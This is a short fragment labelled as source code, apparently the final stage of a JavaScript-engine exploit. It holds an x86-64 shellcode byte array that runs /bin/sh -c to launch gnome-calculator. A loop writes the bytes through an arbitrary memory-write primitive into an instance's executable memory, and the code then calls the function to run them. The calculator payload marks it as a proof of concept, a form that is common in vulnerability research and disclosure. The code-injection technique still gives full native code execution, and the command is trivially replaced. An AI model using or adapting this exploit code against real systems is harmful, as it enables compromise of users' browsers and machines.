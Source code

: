 ```
let sc=[0x6a,0x3b,0x58,0x99,0x48,0xbb,0x2f,0x62,0x69,0x6e,0x2f,0x73,0x68,0x00,0x53,0x48,0x89,0xe7,0x68,0x2d,0x63,0x00,0x00,0x48,0x89,0xe6,0x52,0xe8,0x1c,0x00,0x00,0x00,0x44,0x49,0x53,0x50,0x4c,0x41,0x59,0x3d,0x3a,0x30,0x20,0x67,0x6e,0x6f,0x6d,0x65,0x2d,0x63,0x61,0x6c,0x63,0x75,0x6c,0x61,0x74,0x6f,0x72,0x00,0x56,0x57,0x48,0x89,0xe6,0x0f,0x05];
for(let i=0;i&lt;sc.length;i++){
    wr.write(instanceAddr+i,sc[i]);
}
f();
```
